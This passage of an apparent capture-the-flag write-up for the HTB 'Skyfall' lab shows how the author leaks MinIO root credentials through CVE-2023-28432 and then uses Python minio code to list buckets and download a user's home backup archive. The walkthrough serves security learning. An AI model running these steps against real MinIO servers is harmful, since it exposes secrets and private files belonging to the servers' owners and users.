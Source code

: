 # MinIO (S3 API application)
---
Now that I know the URL of MinIO, add it to `/etc/hosts` and query it with my browser, and I get a whole bunch of data. to interact with MinIO, I can either use a CLI tool, here I will use python code. However, to access the MinIO server, I need both a token and a secret to pass to the server.

That I can obtain from the webapp, by asking for the tokens myself, via [CVE-2023-28432](https://github.com/acheiii/CVE-2023-28432)

By simply giving the python script the URL through `urls.txt`, it will identify a vulnerable URL. Altering the `.py` file to print the response it gets, you can get back the response. With the values from `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD` in hand, I have enough to make requests to the MinIO server.

First, make sure to install MinIO python libraries with
```zsh 
pip3 install minio
```

After observing quite a bit out of the available resources and the cluster URL obtained above, each bucket correlates to a user. 

```python
import minio

mio = minio.Minio("prd23-s3-backend.skyfall.htb","[MINIO_ROOT_USER]","[MINIO_ROOT_PASSWORD]",secure=False)
for i in mio.list_objects("guest"): 
	print(i.object_name, i.version_id, i.last_modified, i.size)
```
outputs:
```
Welcome.pdf 2023-11-08 00:08:05.221000+00:00 49647
helloworld 2024-02-03 19:26:14.104000+00:00 5126
helloworld.txt 2024-02-03 19:26:45.183000+00:00 0
{{7*7}} 2024-02-03 19:59:07.053000+00:00 7438
```


after doing enumeration with the above information, clusters, it seems that user `askyy` has `home_backup.tar.gz`. storing the backup with 

```python
for i in mio.list_objects("askyy"): 
	print(i.object_name, i.last_modified, i.size)
contents = mio.get_object("askyy","home_backup.tar.gz")
open("./home/home_backup.tar.gz","wb").write(contents.read())
```

Gets me
```zsh
$ tar -tvf home_backup.tar.gz
drwxr-x--- askyy/askyy       0 2023-11-09 16:30 ./
-rw-r--r-- askyy/askyy     807 2022-01-06 11:23 ./.profile
-rw-r--r-- askyy/askyy    3771 2023-11-09 16:30 ./.bashrc
drwx------ askyy/askyy       0 2023-11-09 16:28 ./.ssh/
-rw------- askyy/askyy       1 2023-11-09 16:28 ./.ssh/authorized_keys
-rw-r--r-- askyy/askyy       0 2023-10-09 14:47 ./.sudo_as_admin_successful
-rw-rw-r-- askyy/askyy       1 2023-11-09 16:26 ./.bash_history
-rw-r--r-- askyy/askyy     220 2022-01-06 11:23 ./.bash_logout
drwx------ askyy/askyy       0 2023-10-09 14:47 ./.cache/
-rw-r--r-- askyy/askyy       0 2023-10-09 14:47 ./.cache/motd.legal-displayed
```
